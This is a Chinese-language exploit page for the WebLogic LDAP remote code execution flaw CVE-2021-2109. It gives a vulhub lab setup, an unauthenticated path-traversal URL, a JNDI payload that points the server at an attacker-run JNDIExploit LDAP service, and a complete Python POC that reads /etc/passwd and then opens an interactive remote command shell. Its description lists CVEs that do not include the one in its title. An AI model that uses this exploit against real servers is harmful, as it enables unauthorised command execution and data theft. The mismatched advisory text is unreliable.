






Weblogic LDAP 远程代码执行漏洞 CVE-2021-2109¶
漏洞描述¶
2021年1月20日，绿盟科技监测发现Oracle官方发布了2021年1月关键补丁更新公告CPU（Critical Patch Update），共修复了329个不同程度的漏洞，其中包括7个影响WebLogic的严重漏洞（CVE-2021-1994、CVE-2021-2047、CVE-2021-2064、CVE-2021-2108、CVE-2021-2075、CVE-2019-17195、CVE-2020-14756），未经身份验证的攻击者可通过此次的漏洞实现远程代码执行。CVSS评分均为9.8，利用复杂度低。建议用户尽快采取措施，对上述漏洞进行防护。
漏洞影响¶
WebLogic Server 10.3.6.0.0
WebLogic Server 12.1.3.0.0
WebLogic Server 12.2.1.3.0
WebLogic Server 12.2.1.4.0
WebLogic Server 14.1.1.0.0
环境搭建¶
git clone https://github.com/vulhub/vulhub.git
cd vulhub/weblogic/CVE-2020-14882
docker-compose up -d
访问 http://xxx.xxx.xxx.xxx:7001 正常即可

漏洞复现¶
访问一下URL http://xxx.xxx.xxx.xxx:7001/console/css/%2e%2e%2f/consolejndi.portal

如果有此页面未授权可访问，且在影响范围内则可能出现漏洞
下载漏洞攻击需要的 LDAP启动脚本

下载到服务器上启动
java -jar JNDIExploit-v1.11.jar -i xxx.xxx.xxx.xxx (服务器地址)

- 部分服务器注意放行端口
然后配合 Weblogic未授权范围 命令执行
/console/css/%252e%252e/consolejndi.portal?_pageLabel=JNDIBindingPageGeneral&_nfpb=true&JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(%22ldap://xxx.xxx.xxx;xxx:1389/Basic/WeblogicEcho;AdminServer%22)
- 注意 ldap://xxx.xxx.xxx;xxx:1389/Basic/WeblogicEcho 这里 LDAP服务器地址第三个分隔符号为 ;

登录后台可使用此POC，未授权的话用上面的
/console/consolejndi.portal?_pageLabel=JNDIBindingPageGeneral&_nfpb=true&JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(%22ldap://xxx.xxx.xxx;xxx:1389/Basic/WeblogicEcho;AdminServer%22)
漏洞POC¶
- 注意参数格式 Ldap >>> ldap://xxx.xxx.xxx;xxx:1389 中的分号
-
如果使用其他的利用Ldap服务请自行更改 POC关键字
-
此POC仅仅检验有未授权的情况
import requests
import sys
import re
requests.packages.urllib3.disable_warnings()
from requests.packages.urllib3.exceptions import InsecureRequestWarning
def title():
print('+------------------------------------------')
print('+ \033[34mPOC_Des: http://wiki.peiqi.tech \033[0m')
print('+ \033[34mGithub : https://github.com/PeiQi0 \033[0m')
print('+ \033[34m公众号 : PeiQi文库 \033[0m')
print('+ \033[34mVersion: Weblogic 多个版本 \033[0m')
print('+ \033[36m使用格式: python3 poc.py \033[0m')
print('+ \033[36mUrl >>> http://xxx.xxx.xxx.xxx \033[0m')
print('+ \033[36mLDAP >>> ldap://xxx.xxx.xxx;xxx:1389 \033[0m')
print('+------------------------------------------')
def POC_1(target_url, ldap_url, cmd):
vuln_url = target_url + "/console/css/%252e%252e/consolejndi.portal?_pageLabel=JNDIBindingPageGeneral&_nfpb=true&JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(%22{}/Basic/WeblogicEcho;AdminServer%22)".format(ldap_url)
print('\033[36m[o] 正在请求: {}'.format(vuln_url))
headers = {
"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
"cmd": cmd
}
try:
response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
if "root:" in response.text:
print("\033[32m[o] 目标{}存在漏洞 \033[0m".format(target_url))
print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))
else:
print("\033[31m[x] 命令执行失败 \033[0m")
sys.exit(0)
except Exception as e:
print("\033[31m[x] 请检查参数和Ldap服务是否正确 \033[0m", e)
def POC_2(target_url, ldap_url, cmd):
vuln_url = target_url + "/console/css/%252e%252e/consolejndi.portal?_pageLabel=JNDIBindingPageGeneral&_nfpb=true&JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(%22{}/Basic/WeblogicEcho;AdminServer%22)".format(ldap_url)
print('\033[36m[o] 正在请求: {}'.format(vuln_url))
headers = {
"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
"cmd": cmd
}
try:
response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
print("\033[32m[o] 响应为:\n{} \033[0m".format(response))
except Exception as e:
print("\033[31m[x] 请检查参数和Ldap服务是否正确 \033[0m", e)
if __name__ == '__main__':
title()
target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
ldap_url = str(input("\033[35mLdap >>> \033[0m"))
POC_1(target_url, ldap_url, cmd="cat /etc/passwd")
while True:
cmd = input("\033[35mCmd >>> \033[0m")
if cmd == "exit":
sys.exit(0)
else:
POC_2(target_url, ldap_url, cmd)
